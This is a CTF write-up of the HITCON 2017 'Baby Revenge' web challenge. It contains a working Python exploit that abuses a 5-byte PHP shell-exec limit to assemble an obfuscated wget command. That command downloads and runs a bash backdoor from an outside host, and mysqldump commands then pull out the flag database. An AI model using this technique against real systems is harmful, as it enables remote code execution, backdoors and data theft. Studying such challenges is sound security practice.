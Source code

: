 ```yaml
---
title: Hitcon CTF 2017 - Baby Revenge
date: '2017-11-06'
lastmod: '2019-04-07T13:46:27+02:00'
categories:
- writeup
- hitcon2017
tags:
- web
authors:
- malweisse
---
```


The page's code is:

```php
<?php
    $sandbox = '/home/andrea/Desktop/fff/sandbox/' . md5("orange" . $_SERVER['REMOTE_ADDR']);
    @mkdir($sandbox);
    @chdir($sandbox);
    if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 5) {
        @exec($_GET['cmd']);
    } else if (isset($_GET['reset'])) {
        @exec('/bin/rm -rf ' . $sandbox);
    }
	highlight_file(__FILE__);
```

You can execute a shell command but you have only 5 bytes.

My idea is to use the 'ls' output to write in a file and execute it.

The target file is '\\' so it does not affect the shell script semantics.

The procedure is:
* create a file
* redirect ls output to '\\'
* remove the file.

I want to write 'wget myserver.com' in this way, and after execute it.

In myserver i have a bash http backdoor, so after downloading it i want to execute it.

```python
import requests
import progressbar

#obfuscated code using ls (max 5 byte each command)
#'wget tuly.pythonanywhere.com; sh index.html'
code = """
>IFS\
ls>>\
rm I*
>=:
ls>>\
rm =:
>a=\
ls>>\
rm a*
>wg\
ls>>\
rm w*
>et:\
ls>>\
rm e*
>tul\
ls>>\
rm t*
>y.\
ls>>\
rm y*
>pyt\
ls>>\
rm p*
>hon\
ls>>\
rm h*
>any\
ls>>\
rm a*
>whe\
ls>>\
rm w*
>re.\
ls>>\
rm r*
>com
ls>>\
rm c*
>b=\
ls>>\
rm b*
>mv:\
ls>>\
rm m*
>ind\
ls>>\
rm i*
>ex.\
ls>>\
rm e*
>ht\
ls>>\
rm h*
>ml:\
ls>>\
rm m*
>p
ls>>\
rm p*
>\$a
>\$b
ls>>\
"""

url = "http://52.199.204.34/"

lines = code.split("\n")

print "Writing downloader..."
with progressbar.ProgressBar(max_value=len(lines)) as bar:
    for i in xrange(len(lines)):
        l = lines[i].rstrip()
        if l == "":
            continue
        requests.get(url + "?cmd=" + l)
        bar.update(i)

print "Executing downloader..."
requests.get(url + "?cmd=sh \\")

print "Executing backdoor..."
requests.get(url + "?cmd=sh p")
```

In the home directory of the system we found that the flag is in the MySQL db

Having a polling backdoor we needed to use one command to exfiltrate the flag from the DB, so we used something like this:
`mysqldump -u user -p'password' flagdb`
Now, there was some issues we faced:
* A lock made our dump query fail
* The database contained chinese characters that as well made our dump query fail
With this in mind we rewrote our query to something like this
`mysqldump -u user -p'password' flagdb --single-transaction --compatible-charset`
